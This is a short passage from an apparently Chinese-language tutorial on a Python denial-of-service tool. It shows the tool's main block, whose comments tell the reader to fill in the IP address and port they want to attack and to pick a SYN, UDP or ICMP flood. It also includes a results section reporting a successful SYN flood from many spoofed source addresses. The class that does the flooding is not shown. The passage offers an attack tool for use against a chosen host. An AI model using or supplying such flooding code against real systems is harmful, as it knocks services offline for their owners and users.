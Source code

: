 ```python


if __name__ == "__main__":
    # 实例化
    dos_tool_obj = DosTool()
    # 目标ip地址；改成自己要攻击的ip地址
    dest_addr = "10.10.6.91"
    # 目标端口；改成自己要攻击的目标端口
    dest_port = 21
    # dos类型，可以是syn/udp/icmp
    dos_type = 'udp'
    dos_tool_obj.exec_dos_attack(dest_addr, dest_port, dos_type)
```

## 4.2 运行截图
### 4.2.1 syn flood运行截图
在下图中可以看到，和预期一样：

目标ip和端口收到大量来自不同源地址的syn包、目标ip主机上建立大量等待ack的连接、checksum是正确的


![在这里插入图片描述](images/20201113103000382.png)
